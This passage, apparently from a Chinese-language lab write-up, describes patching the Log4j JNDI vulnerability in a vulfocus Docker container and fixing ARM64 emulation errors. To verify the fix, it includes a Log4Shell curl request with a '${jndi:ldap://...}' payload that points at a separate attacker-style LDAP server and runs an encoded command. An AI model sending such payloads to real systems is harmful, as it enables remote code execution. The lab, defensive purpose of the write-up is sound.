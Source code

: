 ```bash
```

完成这些步骤后，重启容器：

```bash
exit

docker restart log4j_fixed
```
这种方法的关键区别在于：

始终使用 -0 标志以避免压缩
使用 printf "UEsDBAoAAAAAAA" | dd of=fixed-log4j-core.jar bs=1 count=12 conv=notrunc 来确保正确的 ZIP 头部
仅对必要的部分进行最小限度的修改


## 6.3 验证漏洞修复

验证漏洞修复是否成功，我们需要再次尝试利用这个漏洞：

```bash
# 尝试利用漏洞（现在应该不会成功）
curl -X GET "http://10.37.133.3:26228/hello?payload=\${jndi:ldap://10.37.132.3:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQK}"

# 漏洞修复成功时，服务器会正常响应，
# 但不再处理 JNDI 查找，因此攻击者的命令不会被执行
```



通过上述步骤，log4j 漏洞将被永久修复，应用将不再易受 JNDI 注入攻击。这种修复方法通过从底层库中删除有问题的代码，而不是仅仅依赖配置参数来禁用功能，提供了最可靠的保护。


# 出现的问题解决

## 1. mac运行vulfocus容器出现编译错误

在ARM64设备上尝试运行vulfocus容器时，容器会在启动后立即退出，通过 `docker logs`查看发现错误信息为 `exec /bin/sh: exec format error`。这是因为容器中的可执行文件是为x86_64架构编译的，无法在ARM64架构上直接执行。

解决的关键步骤包括：

1. **安装QEMU用户态模拟** ：提供二进制跨架构翻译的基础
2. **配置binfmt支持** ：使用tonistiigi/binfmt工具配置内核支持多架构二进制执行
3. **指定容器运行平台** ：通过 `platform: linux/amd64`明确告知Docker使用x86_64模拟

这种解决方案的优点是不需要重新构建容器镜像，可以直接使用现有x86_64镜像；缺点是会有一定的性能开销，因为需要通过QEMU进行指令转换。

## 2. 为缓解 Log4j 漏洞，先尝试通过环境变量添加 JVM 参数禁用 JNDI 查找重启容器，但验证发现参数未正确应用，可能因 QEMU 转译时环境变量展开问题，后直接在命令行添加参数重启容器，参数成功应用，总结出跨架构容器中直接用命令行指定参数更可靠。


### 重新启动并添加JVM参数来禁用JNDI查找
